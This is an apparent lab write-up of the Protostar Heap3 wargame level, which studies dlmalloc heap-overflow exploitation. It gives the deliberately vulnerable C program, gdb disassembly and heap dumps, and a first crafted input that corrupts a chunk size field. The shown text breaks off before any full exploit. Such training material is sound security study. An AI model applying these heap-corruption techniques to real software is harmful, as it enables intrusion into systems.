

#### 24. The Heap: Once upon a free() & dlmalloc unlink() exploit

[`Once upon a free()`](http://phrack.org/issues/57/9.html)

###### Protostar Heap3

- About
	- This level introduces the Doug Lea Malloc (dlmalloc) and how heap meta data can be modified to change program execution.
	- This level is at `/opt/protostar/bin/heap3`

`heap3.c`

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

void winner()
{
  printf("that wasn't too bad now, was it? @ %d\n", time(NULL));
}

int main(int argc, char **argv)
{
  char *a, *b, *c;

  a = malloc(32);
  b = malloc(32);
  c = malloc(32);

  strcpy(a, argv[1]);
  strcpy(b, argv[2]);
  strcpy(c, argv[3]);

  free(c);
  free(b);
  free(a);

  printf("dynamite failed?\n");
}
```


```sh
user@protostar:/opt/protostar/bin$ ./heap3
Segmentation fault
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ ./heap3 AAA BBB CCC
dynamite failed?
user@protostar:/opt/protostar/bin$
```

```sh
user@protostar:/opt/protostar/bin$ gdb ./heap3 -q
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disassemble main
Dump of assembler code for function main:
0x08048889 <main+0>:	push   ebp
0x0804888a <main+1>:	mov    ebp,esp
0x0804888c <main+3>:	and    esp,0xfffffff0
0x0804888f <main+6>:	sub    esp,0x20
0x08048892 <main+9>:	mov    DWORD PTR [esp],0x20
0x08048899 <main+16>:	call   0x8048ff2 <malloc>
0x0804889e <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080488a2 <main+25>:	mov    DWORD PTR [esp],0x20
0x080488a9 <main+32>:	call   0x8048ff2 <malloc>
0x080488ae <main+37>:	mov    DWORD PTR [esp+0x18],eax
0x080488b2 <main+41>:	mov    DWORD PTR [esp],0x20
0x080488b9 <main+48>:	call   0x8048ff2 <malloc>
0x080488be <main+53>:	mov    DWORD PTR [esp+0x1c],eax
0x080488c2 <main+57>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488c5 <main+60>:	add    eax,0x4
0x080488c8 <main+63>:	mov    eax,DWORD PTR [eax]
0x080488ca <main+65>:	mov    DWORD PTR [esp+0x4],eax
0x080488ce <main+69>:	mov    eax,DWORD PTR [esp+0x14]
0x080488d2 <main+73>:	mov    DWORD PTR [esp],eax
0x080488d5 <main+76>:	call   0x8048750 <strcpy@plt>
0x080488da <main+81>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488dd <main+84>:	add    eax,0x8
0x080488e0 <main+87>:	mov    eax,DWORD PTR [eax]
0x080488e2 <main+89>:	mov    DWORD PTR [esp+0x4],eax
0x080488e6 <main+93>:	mov    eax,DWORD PTR [esp+0x18]
0x080488ea <main+97>:	mov    DWORD PTR [esp],eax
0x080488ed <main+100>:	call   0x8048750 <strcpy@plt>
0x080488f2 <main+105>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488f5 <main+108>:	add    eax,0xc
0x080488f8 <main+111>:	mov    eax,DWORD PTR [eax]
0x080488fa <main+113>:	mov    DWORD PTR [esp+0x4],eax
0x080488fe <main+117>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048902 <main+121>:	mov    DWORD PTR [esp],eax
0x08048905 <main+124>:	call   0x8048750 <strcpy@plt>
0x0804890a <main+129>:	mov    eax,DWORD PTR [esp+0x1c]
0x0804890e <main+133>:	mov    DWORD PTR [esp],eax
0x08048911 <main+136>:	call   0x8049824 <free>
0x08048916 <main+141>:	mov    eax,DWORD PTR [esp+0x18]
0x0804891a <main+145>:	mov    DWORD PTR [esp],eax
0x0804891d <main+148>:	call   0x8049824 <free>
0x08048922 <main+153>:	mov    eax,DWORD PTR [esp+0x14]
0x08048926 <main+157>:	mov    DWORD PTR [esp],eax
0x08048929 <main+160>:	call   0x8049824 <free>
0x0804892e <main+165>:	mov    DWORD PTR [esp],0x804ac27
0x08048935 <main+172>:	call   0x8048790 <puts@plt>
0x0804893a <main+177>:	leave
0x0804893b <main+178>:	ret
End of assembler dump.
(gdb) break *0x8048ff2
Breakpoint 1 at 0x8048ff2: file common/malloc.c, line 3211.
(gdb) break *0x8048750
Breakpoint 2 at 0x8048750
(gdb) break *0x8049824
Breakpoint 3 at 0x8049824: file common/malloc.c, line 3583.
(gdb) break *0x8048790
Breakpoint 4 at 0x8048790
(gdb) r AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB CCCCCCCCCCCCCCCC
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB CCCCCCCCCCCCCCCC

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	common/malloc.c: No such file or directory.
	in common/malloc.c
(gdb) c
Continuing.

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	in common/malloc.c
(gdb)
Continuing.

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	in common/malloc.c
(gdb)
Continuing.

Breakpoint 2, 0x08048750 in strcpy@plt ()
(gdb) info proc mappings
process 1914
cmdline = '/opt/protostar/bin/heap3'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap3'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x804b000     0x3000          0        /opt/protostar/bin/heap3
	 0x804b000  0x804c000     0x1000     0x3000        /opt/protostar/bin/heap3
	 0x804c000  0x804d000     0x1000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/56xw 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) define hook-stop
Type commands for definition of "hook-stop".
End with a line saying just "end".
>x/56xw 0x804c000
>x/3i $eip
>end
(gdb) r
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB CCCCCCCCCCCCCCCC
0x804c000:	Error while running hook_stop:
Cannot access memory at address 0x804c000

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	in common/malloc.c
(gdb) c
Continuing.
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000fd9
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048ff2 <malloc>:	push   ebp
0x8048ff3 <malloc+1>:	mov    ebp,esp
0x8048ff5 <malloc+3>:	push   edi

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	in common/malloc.c
(gdb)
```


```sh
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000fb1	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048ff2 <malloc>:	push   ebp
0x8048ff3 <malloc+1>:	mov    ebp,esp
0x8048ff5 <malloc+3>:	push   edi

Breakpoint 1, malloc (bytes=32) at common/malloc.c:3211
3211	in common/malloc.c
(gdb)
```


```sh
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048750 <strcpy@plt>:	jmp    DWORD PTR ds:0x804b118
0x8048756 <strcpy@plt+6>:	push   0x48
0x804875b <strcpy@plt+11>:	jmp    0x80486b0

Breakpoint 2, 0x08048750 in strcpy@plt ()
(gdb)
```


```sh
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048750 <strcpy@plt>:	jmp    DWORD PTR ds:0x804b118
0x8048756 <strcpy@plt+6>:	push   0x48
0x804875b <strcpy@plt+11>:	jmp    0x80486b0

Breakpoint 2, 0x08048750 in strcpy@plt ()
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048750 <strcpy@plt>:	jmp    DWORD PTR ds:0x804b118
0x8048756 <strcpy@plt+6>:	push   0x48
0x804875b <strcpy@plt+11>:	jmp    0x80486b0

Breakpoint 2, 0x08048750 in strcpy@plt ()
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049824 <free>:	push   ebp
0x8049825 <free+1>:	mov    ebp,esp
0x8049827 <free+3>:	sub    esp,0x48

Breakpoint 3, free (mem=0x804c058) at common/malloc.c:3583
3583	in common/malloc.c
(gdb)
```


```sh
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049824 <free>:	push   ebp
0x8049825 <free+1>:	mov    ebp,esp
0x8049827 <free+3>:	sub    esp,0x48

Breakpoint 3, free (mem=0x804c030) at common/malloc.c:3583
3583	in common/malloc.c
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x0804c050	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049824 <free>:	push   ebp
0x8049825 <free+1>:	mov    ebp,esp
0x8049827 <free+3>:	sub    esp,0x48

Breakpoint 3, free (mem=0x804c008) at common/malloc.c:3583
3583	in common/malloc.c
(gdb)
```


```sh
(gdb)
Continuing.
0x804c000:	0x00000000	0x00000029	0x0804c028	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x0804c050	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
0x8048790 <puts@plt>:	jmp    DWORD PTR ds:0x804b128
0x8048796 <puts@plt+6>:	push   0x68
0x804879b <puts@plt+11>:	jmp    0x80486b0

Breakpoint 4, 0x08048790 in puts@plt ()
(gdb)
```





[`malloc-2.7.0.c`](http://gee.cs.oswego.edu/pub/misc/malloc-2.7.0.c)


```sh
user@protostar:/opt/protostar/bin$ gdb ./heap3 -q
Reading symbols from /opt/protostar/bin/heap3...done.
(gdb) set disassembly-flavor intel
(gdb) set pagination off
(gdb) disassemble main
Dump of assembler code for function main:
0x08048889 <main+0>:	push   ebp
0x0804888a <main+1>:	mov    ebp,esp
0x0804888c <main+3>:	and    esp,0xfffffff0
0x0804888f <main+6>:	sub    esp,0x20
0x08048892 <main+9>:	mov    DWORD PTR [esp],0x20
0x08048899 <main+16>:	call   0x8048ff2 <malloc>
0x0804889e <main+21>:	mov    DWORD PTR [esp+0x14],eax
0x080488a2 <main+25>:	mov    DWORD PTR [esp],0x20
0x080488a9 <main+32>:	call   0x8048ff2 <malloc>
0x080488ae <main+37>:	mov    DWORD PTR [esp+0x18],eax
0x080488b2 <main+41>:	mov    DWORD PTR [esp],0x20
0x080488b9 <main+48>:	call   0x8048ff2 <malloc>
0x080488be <main+53>:	mov    DWORD PTR [esp+0x1c],eax
0x080488c2 <main+57>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488c5 <main+60>:	add    eax,0x4
0x080488c8 <main+63>:	mov    eax,DWORD PTR [eax]
0x080488ca <main+65>:	mov    DWORD PTR [esp+0x4],eax
0x080488ce <main+69>:	mov    eax,DWORD PTR [esp+0x14]
0x080488d2 <main+73>:	mov    DWORD PTR [esp],eax
0x080488d5 <main+76>:	call   0x8048750 <strcpy@plt>
0x080488da <main+81>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488dd <main+84>:	add    eax,0x8
0x080488e0 <main+87>:	mov    eax,DWORD PTR [eax]
0x080488e2 <main+89>:	mov    DWORD PTR [esp+0x4],eax
0x080488e6 <main+93>:	mov    eax,DWORD PTR [esp+0x18]
0x080488ea <main+97>:	mov    DWORD PTR [esp],eax
0x080488ed <main+100>:	call   0x8048750 <strcpy@plt>
0x080488f2 <main+105>:	mov    eax,DWORD PTR [ebp+0xc]
0x080488f5 <main+108>:	add    eax,0xc
0x080488f8 <main+111>:	mov    eax,DWORD PTR [eax]
0x080488fa <main+113>:	mov    DWORD PTR [esp+0x4],eax
0x080488fe <main+117>:	mov    eax,DWORD PTR [esp+0x1c]
0x08048902 <main+121>:	mov    DWORD PTR [esp],eax
0x08048905 <main+124>:	call   0x8048750 <strcpy@plt>
0x0804890a <main+129>:	mov    eax,DWORD PTR [esp+0x1c]
0x0804890e <main+133>:	mov    DWORD PTR [esp],eax
0x08048911 <main+136>:	call   0x8049824 <free>
0x08048916 <main+141>:	mov    eax,DWORD PTR [esp+0x18]
0x0804891a <main+145>:	mov    DWORD PTR [esp],eax
0x0804891d <main+148>:	call   0x8049824 <free>
0x08048922 <main+153>:	mov    eax,DWORD PTR [esp+0x14]
0x08048926 <main+157>:	mov    DWORD PTR [esp],eax
0x08048929 <main+160>:	call   0x8049824 <free>
0x0804892e <main+165>:	mov    DWORD PTR [esp],0x804ac27
0x08048935 <main+172>:	call   0x8048790 <puts@plt>
0x0804893a <main+177>:	leave
0x0804893b <main+178>:	ret
End of assembler dump.
(gdb) break *0x080488d5
Breakpoint 1 at 0x80488d5: file heap3/heap3.c, line 20.
(gdb) break *0x08048911
Breakpoint 2 at 0x8048911: file heap3/heap3.c, line 24.
(gdb) break *0x08048935
Breakpoint 3 at 0x8048935: file heap3/heap3.c, line 28.
(gdb)
```

```sh
>>> "A"*16
'AAAAAAAAAAAAAAAA'
>>> "B"*16
'BBBBBBBBBBBBBBBB'
>>> "C"*16
'CCCCCCCCCCCCCCCC'
>>>
```

```sh
(gdb) r AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB CCCCCCCCCCCCCCCC
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAAAAAA BBBBBBBBBBBBBBBB CCCCCCCCCCCCCCCC

Breakpoint 1, 0x080488d5 in main (argc=4, argv=0xbffff804) at heap3/heap3.c:20
20	heap3/heap3.c: No such file or directory.
	in heap3/heap3.c
(gdb) info proc mapping
process 2468
cmdline = '/opt/protostar/bin/heap3'
cwd = '/opt/protostar/bin'
exe = '/opt/protostar/bin/heap3'
Mapped address spaces:

	Start Addr   End Addr       Size     Offset objfile
	 0x8048000  0x804b000     0x3000          0        /opt/protostar/bin/heap3
	 0x804b000  0x804c000     0x1000     0x3000        /opt/protostar/bin/heap3
	 0x804c000  0x804d000     0x1000          0           [heap]
	0xb7e96000 0xb7e97000     0x1000          0
	0xb7e97000 0xb7fd5000   0x13e000          0         /lib/libc-2.11.2.so
	0xb7fd5000 0xb7fd6000     0x1000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd6000 0xb7fd8000     0x2000   0x13e000         /lib/libc-2.11.2.so
	0xb7fd8000 0xb7fd9000     0x1000   0x140000         /lib/libc-2.11.2.so
	0xb7fd9000 0xb7fdc000     0x3000          0
	0xb7fe0000 0xb7fe2000     0x2000          0
	0xb7fe2000 0xb7fe3000     0x1000          0           [vdso]
	0xb7fe3000 0xb7ffe000    0x1b000          0         /lib/ld-2.11.2.so
	0xb7ffe000 0xb7fff000     0x1000    0x1a000         /lib/ld-2.11.2.so
	0xb7fff000 0xb8000000     0x1000    0x1b000         /lib/ld-2.11.2.so
	0xbffeb000 0xc0000000    0x15000          0           [stack]
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048911 in main (argc=4, argv=0xbffff804) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

```sh
user@protostar:/tmp$ echo -ne "BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB\x65" > B
```

```sh
(gdb) r AAAAAAAAAAAAAAAA `cat /tmp/B` CCCCCCCCCCCCCCCC
The program being debugged has been started already.
Start it from the beginning? (y or n) y
Starting program: /opt/protostar/bin/heap3 AAAAAAAAAAAAAAAA `cat /tmp/B` CCCCCCCCCCCCCCCC

Breakpoint 1, 0x080488d5 in main (argc=4, argv=0xbffff7f4) at heap3/heap3.c:20
20	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c010:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c040:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c050:	0x00000000	0x00000029	0x00000000	0x00000000
0x804c060:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb) c
Continuing.

Breakpoint 2, 0x08048911 in main (argc=4, argv=0xbffff7f4) at heap3/heap3.c:24
24	in heap3/heap3.c
(gdb) x/56wx 0x804c000
0x804c000:	0x00000000	0x00000029	0x41414141	0x41414141
0x804c010:	0x41414141	0x41414141	0x00000000	0x00000000
0x804c020:	0x00000000	0x00000000	0x00000000	0x00000029
0x804c030:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c040:	0x42424242	0x42424242	0x42424242	0x42424242
0x804c050:	0x42424242	0x00000065	0x43434343	0x43434343
0x804c060:	0x43434343	0x43434343	0x00000000	0x00000000
0x804c070:	0x00000000	0x00000000	0x00000000	0x00000f89
0x804c080:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c090:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0a0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0b0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0c0:	0x00000000	0x00000000	0x00000000	0x00000000
0x804c0d0:	0x00000000	0x00000000	0x00000000	0x00000000
(gdb)
```

```sh
(gdb) x 0x804c054+0x65
0x804c0b9:	0x00000000
(gdb) disassemble main
Dump of assembler code for function main:
0x08048889 <main+0>:	push   ebp
0x0804888a <main+1>:	mov    ebp,esp
0x0804888c <main+3>:	and    esp,0xfffffff0
0x0804888f <main+6>:	sub    esp,0x20
